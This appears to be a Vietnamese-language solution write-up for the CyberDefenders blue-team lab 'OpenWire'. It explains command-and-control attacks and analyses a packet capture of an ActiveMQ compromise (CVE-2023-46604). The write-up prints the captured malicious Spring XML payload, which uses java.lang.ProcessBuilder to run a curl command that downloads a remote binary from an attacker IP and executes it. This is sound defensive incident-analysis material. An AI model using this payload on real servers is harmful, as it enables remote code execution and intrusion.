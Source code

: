 ### Description 
> During your shift as a tier-2 SOC analyst, you receive an escalation from a tier-1 analyst regarding a public-facing server. This server has been flagged for making outbound connections to multiple suspicious IPs. In response, you initiate the standard incident response protocol, which includes isolating the server from the network to prevent potential lateral movement or data exfiltration and obtaining a packet capture from the NSM utility for analysis. Your task is to analyze the pcap and assess for signs of malicious activity.

### Link challenge 
> https://cyberdefenders.org/blueteam-ctf-challenges/openwire/

### Solution 
- Đầu tiên mình sẽ phân tích sơ lược trước khi trả lời các câu hỏi 
- Trước khi làm được bài lab này ta phải tìm hiểu về tấn công C2 trước  

<details>
<summary>
Lý thuyết về tấn công C2 (Command and Control)
</summary>

```
Command and Control Server (C2) là một máy chủ hoặc hệ thống có nhiệm vụ định hướng, điều khiển và theo dõi các hoạt động của phần mềm độc hại hoặc các cuộc tấn công mạng. C2 được sử dụng để gửi lệnh cho phần mềm độc hại, nhận dữ liệu từ nó và thu thập thông tin từ các máy bị nhiễm mã độc.
C&C Server hoạt động như trung tâm điều khiển trong các cuộc tấn công mạng và botnet. Hacker thiết lập máy chủ này để quản lý và điều hành các máy tính nạn nhân hoặc thiết bị bị nhiễm mã độc hại. 
```
- Đầu tiên, hacker lây nhiễm mã độc hại vào các thiết bị nạn nhân thông qua các kỹ thuật khác nhau. 
- Sau khi nhiễm, các thiết bị này tự động kết nối đến C&C Server qua giao thức mạng an toàn. 
- Hacker sử dụng kết nối này để gửi lệnh và điều khiển các thiết bị nạn nhân, thực hiện các hoạt động tấn công, thu thập thông tin, hoặc thậm chí thực hiện tắt máy tính
- C&C Server thường được thiết lập để che giấu địa chỉ IP thực sự và bảo vệ bằng các biện pháp bảo mật để tránh phát hiện. Việc tìm ra và ngăn chặn C&C Servers là một phần quan trọng của an ninh mạng và quản lý rủi ro.
- ![image](https://lanit.com.vn/wp-content/uploads/2023/05/command-and-control-server-120.jpg)
- C&C là một phương thức tấn công đặc biệt xảo quyệt, bởi chỉ cần một máy tính bị nhiễm virus cũng có thể trở thành cầu nối cho phép hacker hạ gục toàn bộ hệ thống mạng nội bộ. Sau khi phần mềm độc hại xâm nhập thành công trên một máy tính bị lây nhiễm, máy chủ C&C có thể ra lệnh cho nó sao chép và tự phát tán ra các máy tính khác trong mạng — điều này có thể dễ dàng xảy ra vì mã độc về cơ bản đã vượt qua được tường lửa của mạng.

</details>

- Mở wireshark lên, tiến hành phân tích các ip có trong mạng trước 
- ![ịi](image/11.PNG)
- Có thể thấy rõ ràng quá trình truyền dữ liệu hầu hết tập trung vào 2 ip `134.209.197.3` và `146.190.21.92`
- Tiếp theo ta thấy rằng 
- ![sshsh](image/12.PNG)
- Hầu hết các trao đổi dữ liệu nó liên quan đến ip `134.209.197.3`
- Vì vậy có thể khẳng định rằng ip máy chủ C2 là `146.190.21.92`, và ip của máy chủ bị tấn công là `134.209.197.3`
- Tiếp tục phân tích thấy rằng máy chủ C2 đang khai thác thông qua cổng 61616
- ![sbsbs](image/13.PNG)
- Tại gói 11 thấy rằng ip máy victim đang GET về 1 file có tên là `/invoice.xml`
- ![image](image/14.PNG)
- Folow theo gói đó thấy rằng nó đang thực thi 1 lệnh shell `curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker`, trong đó lệnh `curl -s -o /tmp/docker http://128.199.52.72/docker` tải file về từ `http://128.199.52.72/docker` và dùng chmod +x để nâng quyền và thực thi file docker 
- Ta cũng có thể dễ dàng nhận thấy luôn rằng ip `128.199.52.72` nó đến từ mạng của attacker
```
GET /invoice.xml HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/11.0.21
Host: 146.190.21.92:8000
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Tue, 12 Dec 2023 13:38:28 GMT
Content-type: application/xml
Content-Length: 816
Last-Modified: Tue, 12 Dec 2023 13:37:45 GMT

<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
- Thấy rằng tệp xml này còn gọi đến class `java.lang.ProcessBuilder` để chạy docker file 
- Tra google 1 tí sẽ thấy được đây chính là lỗ hổng `CVE-2023-46604` của cổng 61616 (ActiveMQ Classic)

- 